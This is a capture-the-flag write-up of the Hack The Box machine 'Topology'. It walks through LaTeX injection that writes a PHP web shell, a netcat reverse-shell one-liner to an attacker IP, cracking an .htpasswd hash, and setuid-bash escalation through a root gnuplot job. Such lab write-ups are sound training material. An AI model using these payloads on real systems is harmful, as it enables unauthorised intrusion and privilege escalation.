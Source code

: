 ![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/8b83c2bf-8781-4bea-9114-c1f666d236c4)

> IMPORTANT: The method I used in this writeup was patched shortly after I wrote it. Will need to come back later and update my method.
> I feel this box is fairly unrealistic. Not a fan.

# Enumeration
Nmap:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/67848de5-0c46-4725-9d81-392fac2187bf)

22 - ssh, not interesting
80 - http, likely point of entry

Checking out the website, it’s a landing page for a university type thing. 
The website has a lot of information on the home page which could be used for generating a wordlist. There are also an email which could give us a username: lklein@topology.htb

Based on that layout, we can also include other likely usernames: 
Vdaisley
dabrahams

Looking deeper on the website, there is  a link to a subdomain: latex.topology.htb

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/189762a1-c16b-493f-85a3-a8b7f5ae3e0e)

# Foothold
Played with the program for a bit. It uses a language called LaTeX which turns a specific input into equations. There are ways to inject code to read files and such, but the author of this box blacklists a bunch of useful commands… Checking the forum about it, people are suggesting reading this paper: https://www.usenix.org/system/files/login/articles/73506-checkoway.pdf

Took a lot of digging, but you can ignore the illegal commands portion. I just needed to find the right command and method that would allow me to write a file to the webpage. 
Turns out the root webpage is a readable directory. Under that directory there is another directory under latex.topology.htb/tempfiles/
This is where I can write to.
In burpsuite’s repeater, I can highlight the vulnerable input 

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/91f7dda6-b6f1-4196-91e7-c7eab657b833)

And this will pop up with the inspector on the right:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/906723c8-ead3-4de7-8484-8a5666e8b122)

I can make changes to the “Decoded from” section and apply changes so that I can not worry about spaces or encoding!
I decided to try chatgpt for a bit to see if LaTeX will let me write external files from LaTeX:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/238f4e20-e87d-4d1f-8259-cf9597de8d45)

Based on this, I should be able to tell it to write a php script for me and send it through. I just need it to run commands… 

Here is the script that works
```
\begin{filecontents*}[overwrite]{test.php}
<?php system($_GET["cmd"]);?>
/end{filecontents*}
```

This will create a php file in that directory. From here I can add ‘?cmd=whoami’ to the end of the url and it will run the whoami command!

Now I need to craft a way to get a shell!
I’ll use this code and send it to that page in the repeater using the same method:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 1234 >/tmp/f
```

Now we test!
```
$ whoami
www-data
```
Success!

I can’t get into the user folders since I’m only www-data, so let’s look around. Looking in /var/www/ I find a few subdomains:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/d66b635b-9d15-419f-87a9-6b5fd7d9f824)

We already knew about latex so let’s add these to the /etc/hosts file and keep exploring!

When I go to dev.topology.htb I’m greeted with a login screen. Okay… Maybe there’s something interesting in the dev folder?
There is! A hidden file to be exact:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/2b2431aa-0d99-4738-918f-a42b2a23f601)

Neat!
The .htpasswd has a has for the user vdaisley
```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Time to point hashcat at it!

The hash is in apache which should be mode 1600… Now we wait!
We got a winner: 
Vdaisley : calculus20

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/1e8fa574-b9bc-4058-96ee-84d174937465)

That’s ssh! Let’s go!!!

Now for root. 

# Escalation
From what I can tell, there is a folder that I can write to, but don’t have permission to read: /opt/gnuplot/

There may be something to this…

Poking a bit further, I can run a tool called pspy64 to check running processes and I see something interesting happening every so often:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/205e6001-db6a-4b90-bc3b-93273448ff8c)

That command is telling it to search that folder for anything ending in .plt and then run it in gnuplot. And since this owned by root, that is likely my way in. 

I created the following file named root.plt and placed it in the /opt/gnuplot directory:
```
#!/bin/bash
`chmod u+s /bin/bash
```

The back quote is important. That tells gnuplot to run it as a system command. Once this task runs, it should change the bash program into a setuid binary:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/104740d7-77f7-4dae-b524-cb6626d1af46)

Topology has been PWNED!

# Update
The creator patched the method I used above. You can nolonger write to the computer. You need to get in by reading files. This box’s foothold is now entirely dependant on enumerating the box more. Based on the forum posts, I need to read single lines from files to find the hash and get in. To do this, I need to know there is more than one domain:
I can brute force domain discovery with this command: 
`gobuster vhost -u http://topology.htb -t 50 -w /usr/share/dirb/wordlists/common.txt`
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/0b68698d-7f96-4280-a3ec-c5c89b6fce56)

Will need to follow up on this box. Not sure what I missed since I did the non-intended method.... 
Looking at other writeups and guides, a lot of peopple used the same method I did. Will need to review the official guide when it gets released. Stay tuned... 
